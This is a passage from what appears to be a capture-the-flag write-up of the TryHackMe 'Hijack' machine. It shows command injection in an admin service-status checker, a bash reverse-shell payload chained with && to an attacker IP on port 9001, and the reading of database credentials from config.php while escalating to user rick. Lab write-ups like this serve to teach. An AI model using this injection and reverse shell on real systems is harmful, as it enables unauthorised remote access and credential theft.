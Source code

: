 After logging in as admin, I discovered a `service status checker`:

![Service Status Checker](/assets/img/tryhackme/Hijack/thm_hijack_6.jpg)

I tried to break out the command syntax to execute additional commands, and was successful by contacting the two commands using `&&`: 

![Command injection](/assets/img/tryhackme/Hijack/thm_hijack_7.jpg)

Since I was able to execute arbitrary commands, I was able to execute a reverse shell and received the connection. 
```bash
ssh && bash -c "bash -i >& /dev/tcp/[attackerip]}/9001 0>&1"
```

I wasn't able to retrieve the user flag, so needed to escalate my privileges to Rick first:
```bash
www-data@Hijack:/home/rick$ cat user.txt
cat: user.txt: Permission denied
```

## Privilege Escalation rick

I continued by enumerating the machine and discoverd an interesting PHP script, named `conf.php` in the webserver directory: 
```bash
www-data@Hijack:/var/www/html$ ls
administration.php  config.php  index.php  login.php  logout.php  navbar.php  service_status.sh  signup.php  style.css
www-data@Hijack:/var/www/html$ cat config.php 
<?php
$servername = "localhost";
$username = "rick";
$password = "[removed]";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);
```